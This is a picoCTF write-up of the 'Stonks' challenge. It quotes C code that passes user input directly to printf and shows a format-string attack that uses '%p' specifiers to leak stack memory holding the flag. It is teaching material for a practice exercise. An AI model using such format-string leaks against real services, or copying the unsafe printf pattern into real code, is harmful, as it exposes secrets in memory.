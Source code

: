 # [Stonks](https://play.picoctf.org/practice/challenge/105?bookmarked=1&page=1)

## Initial exploration
After downloading the [C file](https://mercury.picoctf.net/static/a4ce675e8f85190152d66014c9eebd7e/vuln.c), I first tried running the netcat.

```
tiffanygan-picoctf@webshell:/tmp$ nc mercury.picoctf.net 59616
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
1
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
test
Buying stonks with token:
test
Portfolio as of Sat Aug 12 17:52:05 UTC 2023


15 shares of CVP
34 shares of X
Goodbye!

tiffanygan-picoctf@webshell:/tmp$ nc mercury.picoctf.net 59616
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
2

Portfolio as of Sat Aug 12 17:52:12 UTC 2023


You don't own any stonks!
Goodbye!
```
## Analyzing the C script
Upon opening `vuln.c`, there's a lot of code, so let's take a look at bits of the most important function, `buy_stonks`:

```c
int buy_stonks(Portfolio *p) {
        ...
        
        char api_buf[FLAG_BUFFER];
        FILE *f = fopen("api","r");
        if (!f) {
                printf("Flag file not found. Contact an admin.\n");
                exit(1);
        }
        fgets(api_buf, FLAG_BUFFER, f);

        ...

}
```

The file named `api` is being read, which likely contains our flag. Unfortunately, we don't have access to this on our own devices, so we need to exploit it on the picoCTF server.

```c
int buy_stonks(Portfolio *p) {
        ...
        
        // TODO: Figure out how to read token from file, for now just ask

        char *user_buf = malloc(300 + 1);
        printf("What is your API token?\n");
        scanf("%300s", user_buf);
        printf("Buying stonks with token:\n");
        printf(user_buf);

        // TODO: Actually use key to interact with API

        view_portfolio(p);

        return 0;
}
```

The program's direct usage of `printf(user_buf);` makes it vulnerable to string format attacks. Exploiting this, I input `%p`, which is a format specifier that reveals memory addresses, in order to have the program return the value saved in the memory stack.

```
tiffanygan-picoctf@webshell:/tmp$ nc mercury.picoctf.net 59616
Welcome back to the trading app!

...

What is your API token?
%p
Buying stonks with token:
0x87453f0
Portfolio as of Sat Aug 12 18:02:52 UTC 2023

...

Goodbye!
```

In this case, `0x87453f0` is the value saved in memory. By chaining `%p`s, we can delve deeper into the memory. Once we have the memory content, we can decode it to get our flag.

The code is [here](https://github.com/tiffanygan/picoCTFWriteup/blob/main/src/main/python/stonks.py).